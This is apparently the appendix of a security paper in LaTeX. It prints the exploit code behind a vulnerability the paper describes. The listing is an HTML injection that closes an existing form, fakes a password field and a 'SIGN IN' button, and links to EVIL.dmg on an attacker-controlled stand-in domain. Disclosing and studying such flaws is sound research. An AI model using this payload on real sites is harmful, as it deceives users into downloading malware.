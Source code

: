 \appendix
\chapter{Appendix}

\section{Exploit Code} \label{exploitCode}

In the following listing, we include the code used to generate the exploit as seen in Section \ref{live_vulnerability}. In the Listing, \texttt{MY\_CONTROLLED\_SITE} is the domain of a website we control, with the purpose of hosting the \texttt{EVIL.dmg} file.

\begin{lstlisting}[label={lst:exploit_code}, language={HTML}]
"></form>
<div style="height:6px; width:100%; clear:both;"></div>
<form>
	<div class="form-group">
		<label class="control-label" for="password">PASSWORD</label>
		<input class="form-control" type="password" name="LoginForm[password]" placeholder="Password" >
	</div>
	<style>
		.myanchor {
			display: block;
			width: 310px;
			height: 40px;
			background: #4E9CAF !important;
			padding: 10px;
			text-align: center;
			border-radius: 5px;
			font-weight: bold;
		}
	</style>
	<div class="form-group btn-container">
		<a href="http://MY_CONTROLLED_SITE/test/EVIL.dmg" class="myanchor" type="submit" ><i class="fa fa-sign-in fa-lg fa-fw"></i>SIGN IN</a>
	</div>
</form></section></body>

\end{lstlisting}